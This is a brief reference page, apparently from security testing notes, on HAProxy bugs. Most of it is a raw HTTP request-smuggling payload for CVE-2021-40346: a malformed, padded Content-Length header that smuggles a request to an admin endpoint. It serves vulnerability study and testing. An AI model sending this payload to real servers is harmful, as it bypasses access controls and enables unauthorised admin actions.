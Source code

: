 # HAProxy Common Bugs

## Introduction
What would you do if you came across a website that uses HAProxy?

## How to Detect
`-`

1. CVE-2021-40346 (HTTP Request Smuggling)
```
POST /index.html HTTP/1.1
Host: abc.com
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 60
 
GET /admin/add_user.py HTTP/1.1
Host: abc.com
abc: xyz
```

Source: 
- [JFrog](https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/)